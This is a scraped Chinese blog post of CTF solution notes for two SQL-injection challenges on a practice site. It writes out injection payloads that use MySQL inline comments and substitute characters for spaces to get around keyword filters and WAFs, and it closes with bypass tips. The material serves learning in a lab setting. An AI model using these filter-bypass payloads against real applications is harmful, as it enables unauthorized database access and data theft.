



<!--yml
category: 未分类
date: 2022-04-26 14:31:30
-->

# CTF解题笔记（2）_TravisZeng的博客-CSDN博客_ctf题解

> 来源：[https://blog.csdn.net/qq_34841823/article/details/54290089](https://blog.csdn.net/qq_34841823/article/details/54290089)

简单的sql注入：

这三道题目主要是检测绕过过滤的功底：

1.解题路径:http://ctf5.shiyanbar.com/423/web/

先提交1试试看：

发现显示是正常的，然后再提交id=1':

说明'是可以影响SQL语句的，并没有被过滤掉

然后我们尝试id=1' or ''=':发现空格和or关键字都没有被过滤，很好

再尝试看and关键字，令id=1' and 1=1 or''='：发现报错，将and换成大写也不行，看来是被过滤掉了  

接着尝试使用(),/**//*!*/等方法绕过，发现/*!关键字*/的方法是可以绕过的：

于是开始猜测表名：id=' or /*! exists*/ (/*!select*/ * /*!from*/ admin) /*!and*/ ''=';表名不存在

猜测表名为flag：成功！

 

猜测列名存在id和name：都是可以的

使用联合查询看列数：id=' /*!union*/ /*!select*/ 1,2 /*!from*/ flag /*!where*/ ''='

说明之前回显的id就是我们输入的参数而已

当我们构造id=' /*!union*/ /*!select*/ name /*!from*/ flag /*!where*/ ''='时却显示错误，

可能是出题者挖的一个坑，当构造id=' /*!union*/ /*!select*/ flag /*!from*/ flag /*!where*/ ''='

显示出flag

 

2.解题链接：http://ctf5.shiyanbar.com/web/index_2.php 

有了上一题的经验，我们先检测看这个到底过滤了什么：

分别输入'和' 可以判断空格是被过滤了的，我们可以知道，可以使用`%0a %0d %09 %0b /**/ /*!*/ /*!50000*/`来代替空格，这里我们选用/**/。

然后尝试or和and关键字以及union看看是否被过滤，发现都可以正常使用，甚至#都可以正常使用，简直神奇；于是构造：

id='/**/and/**/0=1/**/union/**/select/**/flag/**/from/**/flag#

 

总结：

tip1：在Mysql中构造sql注入时，where后面的单引号完全可以直接使用`''=''`来闭合，表示永真，而不一定需要`'1'='1'`这种格式。

tip 2：当关键字被过滤掉的时候，可以使用/**/或者/*!*/括起来的方式来绕过检测过滤

tip 3：常用来绕过WAF或过滤函数以代替空格的字符有这些：`%0a %0d %09 %0b /**/ /*!*/ /*!50000*/`以及()

tip 4：在get型注入中，如果or被过滤，则可以使用|代替，如 `...where search=''|'1';`